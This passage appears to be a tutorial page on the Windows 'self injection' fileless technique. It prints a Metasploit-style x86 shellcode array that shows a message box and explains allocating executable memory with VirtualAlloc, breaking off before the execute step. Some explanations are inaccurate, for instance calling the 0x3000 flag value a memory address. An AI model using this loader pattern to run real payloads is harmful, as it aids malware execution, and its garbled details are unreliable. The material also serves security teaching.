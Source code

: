 
# Self Injection technique

It's a type of a Fileless attack in which we injects the malicious code or shellcode into the memory space, by reserving a block of memory first from the OS for allocation and then write the malicious code to that memory block and then execute the malicious code.


# Steps of Self Injection attack using C++ in Windows OS

We have to include the Windows.h header file into our C++ code so that we can use all of the API's for Windows OS, then we use a shellcode (x86) for the MessageBox into the main function (we can create any shellcode in Metapreter make sure that we use -c flag for C programming language).

```c++
#include <Windows.h>  // Windows.h header file for Windows API's
#include <stdio.h>
int main(int argc, char** argv) {
    unsigned char shellcode[] =   // Using MessageBox ShellCode created in Metapreter 
        "\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64"
        "\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e"
        "\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60"
        "\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b"
        "\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01"
        "\xee\x31\xff\x31\xc0\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d"
        "\x01\xc7\xeb\xf4\x3b\x7c\x24\x28\x75\xe1\x8b\x5a\x24\x01"
        "\xeb\x66\x8b\x0c\x4b\x8b\x5a\x1c\x01\xeb\x8b\x04\x8b\x01"
        "\xe8\x89\x44\x24\x1c\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89"
        "\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f\xff\xff\xff\x89\x45"
        "\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52\xe8\x8e\xff\xff"
        "\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33\x32\x2e\x64"
        "\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89\xe6\x56"
        "\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c\x24"
        "\x52\xe8\x5f\xff\xff\xff\x68\x65\x58\x20\x20\x68\x6c\x63"
        "\x6f\x64\x68\x53\x68\x65\x6c\x31\xdb\x88\x5c\x24\x09\x89"
        "\xe3\x68\x6d\x58\x20\x20\x68\x76\x65\x6e\x6f\x68\x20\x6d"
        "\x73\x66\x68\x65\x20\x62\x79\x68\x6c\x63\x6f\x64\x68\x53"
        "\x68\x65\x6c\x31\xc9\x88\x4c\x24\x15\x89\xe1\x31\xd2\x52"
        "\x53\x51\x52\xff\xd0\x31\xc0\x50\xff\x55\x08";
```

# 1. Allocate Memory for Self Injection attack

In this first step we have to allocate the block of memory using "VirtualAlloc API function. VirtualAlloca function have 4 parametes.

1. Block of memmory where we want to allocate our code in memmory 
   we set it to "NULL" as a parameter to allow OS to allocate for us randomly.
2. sizeOf() How much memory we want to allocate for our 
   shellcode, in our case we use the "sizeOf(shellcode) of our shellcode.
3. (MEM_COMMIT | MEM_RESERVE) Is a allocation type we use 
   MEM_RESERVE and MEM_COMMIT to tell OS to reserve page block of memmory from the ram and commit(read and write) to this page we always have to reserve the page first and then read and write using commit, we use pipe to reserve the page from the mem and then commit, if we sum it up we MEM_COMMIT have hex value of 0x1000 and MEM_RESERVE have the hex value of 0x2000 to sum it up which is 0x3000 (which is the memory address in the ram).
4. PAGE_EXECUTE_READWRITE which allow us to read and write to the 
   memmory address in hex which is hex40
